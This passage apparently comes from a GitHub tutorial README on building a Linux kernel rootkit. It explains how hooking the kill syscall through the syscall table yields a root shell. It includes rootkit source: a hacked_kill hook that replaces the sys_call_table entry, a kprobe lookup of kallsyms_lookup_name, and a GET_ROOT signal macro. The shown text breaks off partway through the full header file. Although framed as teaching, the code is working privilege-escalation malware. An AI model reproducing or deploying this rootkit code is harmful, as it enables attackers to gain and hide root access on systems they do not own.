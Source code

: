 ```c
			break;
		default:
			return orig_kill(pt_regs);
	}
	return 0;
}
```
line2 :&nbsp; `int sig = (int) pt_regs->si` => Stores the passed argument, in this case it is: `64`, [source](https://xcellerator.github.io/posts/linux_rootkits_03/) (Only the 1st portion before _Hooking kill_).

Now, if the passed argument/ signal (or sig) is same as `GET_ROOT` (which is a macro defined) then we are gifted with a _rootshell_.

#### Now the question comes, "Why _`si`_ register, why not _`rsi`_ register?"
***Ans***: Please follow the [commented lines](https://github.com/torvalds/linux/blob/15bc20c6af4ceee97a1f90b43c0e386643c071b4/arch/x86/include/asm/ptrace.h#L12).

I have told you earlier that the function type of original syscall must be same as the created syscall.
```
static unsigned long *__sys_call_table;

typedef asmlinkage long (*tt_syscall)(const struct pt_regs *);
static tt_syscall orig_kill;
orig_kill = (tt_syscall)__sys_call_table[__NR_kill];

and

static asmlinkage int hacked_kill(const struct pt_regs *pt_regs)
__sys_call_table[__NR_kill] = (unsigned long) hacked_kill;
```
If you compare all the lines, you will see each function types are satisfying other function types, i.e. there is no function type mismatch. Although, if it doesn't match, obviously compiler will through you an error. I just showed this portion to you, as I was dealing with this same problem while creating this project.

vi) So, the whole code to get the rootshell via `sys_kill interception`:
```c
// filename: Test_hook_kill.h

#include <linux/syscalls.h>     /* Needed to use syscall functions */
#include <asm/ptrace.h>		/* For intercepting syscall, struct named pt_regs is needed */

#include <linux/kprobes.h>

// Setting which dynamic kernel symbol to find
static struct kprobe kp = {
	.symbol_name = "kallsyms_lookup_name"
};

// https://xcellerator.github.io/posts/linux_rootkits_03/
#define GET_ROOT 64

/* For storing read cr0 control register value
 *
 * link: https://elixir.bootlin.com/linux/v5.11/source/arch/x86/include/asm/paravirt_types.h#L111
 *
 * unsigned long (*read_cr0)(void);
 */
unsigned long cr0;

// To store the address of the found sys_call_table
static unsigned long *__sys_call_table;
```